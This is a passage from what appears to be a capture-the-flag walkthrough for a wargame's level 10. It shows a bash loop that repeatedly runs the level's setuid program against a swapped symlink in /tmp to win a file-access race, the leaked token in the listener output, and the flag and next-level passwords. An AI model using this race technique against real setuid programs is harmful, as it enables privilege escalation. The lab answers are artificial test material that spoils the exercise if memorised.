 In the last window we will create another infinite loop so we can eecute `~/level10` with the `/tmp/link` file that we created infinitely with the first script

```bash
vim spammer.sh
#!/bin/bash

while true; do
	/home/user/level10/level10 /tmp/link 10.12.250.234
done
```

Change the IP with the [localhost](http://localhost) of them machine

After a few seconds we can stop both scripts and go to the first window, where we will get something like this:

```bash
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
```

Here is the token so let’s get the flag and go on

```bash
su flag10
Password: woupa2yuojeeaaed06riuj63c

su level11
Password: feulo4b72j7edeahuete3no7c
```